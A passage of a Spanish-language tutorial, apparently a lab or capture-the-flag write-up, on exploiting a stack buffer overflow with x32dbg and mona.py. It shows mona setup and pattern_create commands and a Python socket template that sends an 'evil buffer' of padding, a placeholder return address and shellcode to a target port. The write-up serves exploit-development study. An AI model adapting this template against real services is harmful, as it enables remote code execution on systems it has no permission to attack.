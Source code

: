 ```

*Cuando estemos en LOG abajo de LOG en command: introducimos estos comandos siempre que reiniciamos/apagamos la maquina.
```
import mona
mona.mona("help")
mona.mona("config -set workingfolder c:\\logs\\%p")
```
![12](https://user-images.githubusercontent.com/107126653/172831935-42213adf-0878-4945-945a-27f0566e9c10.png)

Si te ha salido esto, tranquilo no te alarmes . ¡VAMOS BIEN!.

```
mona.mona("pattern_create 2000")
```
Utilizamos este comando para generar 2000 bytes  unicos en  que este write up  son las idoneas.

![13](https://user-images.githubusercontent.com/107126653/172833016-434f5a8a-2730-49ca-bc20-f4effdfdd7da.png)

lo copiamos! y nos vamos a un .PY que nos vamos a crear un script que va realizar un EXPLOIT.
También sería aconsejable bajarnos ```NOTEPAD ++```

*importante  dale guarda como (nombre que quieras) con la extension .py  

```
import socket

ip = "IP"
port = 31337



shellcode  = 

  
#badchars 
buf =  "\x41" * (CANTIDAD DE A)
buf +=  "DIRECCION DE RETORNO"
buf += shellcode


 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

 

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buf + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```
Puedes utilizar esta plantilla. En IP primero probamos con local host ```127.0.0. 1```


![15](https://user-images.githubusercontent.com/107126653/172839502-88c90fdb-6601-4e96-8df9-d539bcd07eeb.png)

Pegamos los 2000 bytes en SHELLCODE entre ' '  o " ". ( te tiene que salir en color gris en vez de en negro). con un CONTROL + S guardamos.

Volvemos al X32DBG pulsa restart (arriba izq). Pulsamos run (flecha derecha). Ahora vamos a ejecutar el .py desde una CMD (simbolo del sistema) , en mi caso me instale la ultima version de python 3.10. si te lo instalas de forma genérica. estará localizado aquí. 
```